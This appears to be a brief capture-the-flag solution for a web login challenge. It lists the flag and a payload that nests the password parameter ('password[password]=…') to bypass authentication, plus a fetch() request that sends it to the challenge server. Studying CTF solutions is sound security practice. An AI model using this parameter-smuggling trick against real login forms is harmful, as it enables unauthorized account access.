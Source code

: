 Flag: `CTF{a-premium-effort-deserves-a-premium-flag}`


Payload: `username=michelle&password[password]=something&csrf=`


Exploit:
```
await fetch("https://log-me-in.web.ctfcompetition.com/login", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
    "referrer": "https://log-me-in.web.ctfcompetition.com/login",
    "body": "username=michelle&password[password]=1&csrf=",
    "method": "POST",
    "mode": "cors"
});
```
